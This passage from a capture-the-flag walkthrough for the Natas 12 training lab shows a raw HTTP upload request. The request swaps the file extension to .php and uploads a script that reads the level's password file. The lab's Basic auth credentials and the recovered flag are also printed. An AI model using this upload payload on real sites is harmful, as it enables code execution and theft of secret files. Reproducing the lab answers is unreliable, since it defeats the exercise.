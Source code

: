 ```
echo $homepage;
?>

------WebKitFormBoundaryZsRZsuZgRjxQOk0y--
```

We can change the default value to the ``php`` file extension..


```
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
Content-Length: 507
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Upgrade-Insecure-Requests: 1
Origin: http://natas12.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZsRZsuZgRjxQOk0y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas12.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="filename"

shell.php
------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="uploadedfile"; filename="test.php"
Content-Type: application/octet-stream


<?php
$homepage = file_get_contents('/etc/natas_webpass/natas13');
echo $homepage;
?>

------WebKitFormBoundaryZsRZsuZgRjxQOk0y--
```

We can then go to the URL created from the upload and get the flag.

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
